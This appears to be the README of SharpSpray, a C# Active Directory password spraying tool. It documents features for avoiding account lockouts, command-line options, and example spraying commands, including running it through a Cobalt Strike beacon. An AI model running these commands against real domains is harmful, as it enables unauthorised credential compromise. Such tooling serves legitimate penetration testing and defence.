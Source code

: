 <div align="center">
    <h1>SharpSpray</h1>
    <br/>
</div>

SharpSpray is a Windows domain password spraying tool written in .NET C#.

## Introduction

SharpSpray is a C# port of [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) with enhanced and extra capabilities. This tool uses LDAP Protocol to communicate with the Domain active directory services.

### Features
- Can operate from inside and outside a domain context.
- Exclude domain disabled accounts from the spraying.
- Auto gathers domain users from the Active directory.
- Avoid potential lockouts by excluding accounts within one attempt of locking out.
- Avoid potential lockouts by auto-gathering domain lockout observation window settings.
- Compatible with Domain Fine-Grained Password policies.
- Custom LDAP filter for users, e.g. (description=*admin*)
- Delay in seconds between each authentication attempt.
- Jitter between each authentication attempt.
- Support a single password or a list of passwords.
- Single file Console Application.


## Usage

### Command Line Args
```
> SharpSpray.exe --help

  -v, --Verbose       Show verbose messages.
  -u                  (Optional) Username list file path. This will be
                      automatically fetched from the active directory if not specified.
  -p                  A single password or a list splited by '|' that will be used to perform the password spray.
  -k, --pl            (Optional) Password List file path.
  -d                  (Optional) Specify a domain name.
  -m                  Use this option if spraying from a host located outside the Domain context.
  -q, --dc-ip         Required when the option 'm' OutsideDomain is checked
  -x                  Attempts to exclude disabled accounts
                      from the user list (Not supported with the option -m)
  -z                  Exclude accounts within 1 attempt of
                      locking out (Not supported with the option -m)
  -f                  Custom LDAP filter for users, e.g. "(description=*admin*)"
  -o                  A file to output the results to.
  -w                  Do not relay on domain lockout observation window settings and use this specific value. (Default 32 minute)
  -s                  (Optional) Delay in seconds between each authentication attempt.
  -j                  (Optional) Jitter in seconds.
  --Force             Force start without asking for confirmation.
  --get-users-list    Get the domain users list from the active directory.
  --show-examples     Get domain users list from the active directory.
  --show-args         Show command line args
  --help              Display this help screen.
```

### Usage Examples
```
SharpSpray.exe -v -x -z --pl password.txt
SharpSpray.exe -v -x -z -p "Passw0rd|Admin@123|Admin@2022"
SharpSpray.exe -v -x -z -p "Passw0rd"
SharpSpray.exe -x -z -u users.txt --pl psswd.txt
SharpSpray.exe -x -z -u users.txt -p Passw0rd!
SharpSpray.exe -x -z -s 3 -j 1 -u users.txt -k psswd.txt -o sprayed.txt

SharpSpray.exe -w 32 -m -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt
SharpSpray.exe -w 32 -s 3 -j 1 -m -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt

SharpSpray.exe --get-users-list
SharpSpray.exe --get-users-list > users.txt
PS> .\SharpSpray.exe --get-users-list | Out-File -Encoding ascii users.txt


* Using in Cobalt Strike:
beacon> execute-assembly C:\Users\sec\Desktop\tmp\sharpspray.exe --Force -w 32 -s 3 -j 1 -x -z -v -p "Passw0rd|Admin@123|Admin@2022"

* Check Jobs in Cobalt:
beacon> jobs

```

### Fetching only the users list from the Active Directory

The following command will fetch domain users and prints the list to the console.

```
SharpSpray.exe -x -z --get-users-list

-x: Exclude disabled accounts from the user list.
-z: Exclude accounts within 1 attempt of locking out.
```




### Meta
[SharpSpray | Active Directory Password Spraying Tool](https://c99.sh/sharpspray-active-directory-password-spraying-tool/)